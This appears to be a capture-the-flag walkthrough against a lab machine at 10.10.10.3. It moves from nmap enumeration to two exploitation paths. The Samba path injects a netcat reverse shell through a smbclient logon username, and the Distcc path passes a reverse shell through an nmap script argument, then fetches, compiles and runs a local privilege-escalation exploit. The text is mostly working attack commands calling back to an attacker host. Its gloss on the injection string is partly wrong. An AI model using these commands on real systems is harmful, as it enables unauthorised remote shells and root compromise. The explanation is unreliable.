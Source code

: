 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon ---->>>> is likely the name of a function or command that is being called. <br>
"/=" ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```
#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
